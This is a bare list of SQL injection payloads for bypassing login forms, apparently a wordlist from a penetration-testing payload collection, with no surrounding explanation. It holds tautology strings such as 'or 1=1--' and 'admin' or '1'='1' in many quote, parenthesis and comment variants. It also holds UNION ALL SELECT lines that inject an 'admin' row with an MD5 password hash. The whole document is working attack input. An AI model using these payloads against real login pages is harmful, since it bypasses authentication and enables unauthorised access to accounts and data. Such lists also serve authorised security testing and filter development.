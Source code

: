 ```
') or ('x')=('x
')) or (('x'))=(('x
" or "x"="x
") or ("x")=("x
")) or (("x"))=(("x
or 2 like 2
or 1=1
or 1=1--
or 1=1#
or 1=1/*
admin' --
admin' -- -
admin' #
admin'/*
admin' or '2' LIKE '1
admin' or 2 LIKE 2--
admin' or 2 LIKE 2#
admin') or 2 LIKE 2#
admin') or 2 LIKE 2--
admin') or ('2' LIKE '2
admin') or ('2' LIKE '2'#
admin') or ('2' LIKE '2'/*
admin' or '1'='1
admin' or '1'='1'--
admin' or '1'='1'#
admin' or '1'='1'/*
admin'or 1=1 or ''='
admin' or 1=1
admin' or 1=1--
admin' or 1=1#
admin' or 1=1/*
admin') or ('1'='1
admin') or ('1'='1'--
admin') or ('1'='1'#
admin') or ('1'='1'/*
admin') or '1'='1
admin') or '1'='1'--
admin') or '1'='1'#
admin') or '1'='1'/*
1234 ' AND 1=0 UNION ALL SELECT 'admin', '81dc9bdb52d04dc20036dbd8313ed055
admin" --
admin';-- azer
admin" #
admin"/*
admin" or "1"="1
admin" or "1"="1"--
admin" or "1"="1"#
admin" or "1"="1"/*
admin"or 1=1 or ""="
admin" or 1=1
admin" or 1=1--
admin" or 1=1#
admin" or 1=1/*
admin") or ("1"="1
admin") or ("1"="1"--
admin") or ("1"="1"#
admin") or ("1"="1"/*
admin") or "1"="1
admin") or "1"="1"--
admin") or "1"="1"#
admin") or "1"="1"/*
1234 " AND 1=0 UNION ALL SELECT "admin", "81dc9bdb52d04dc20036dbd8313ed055
```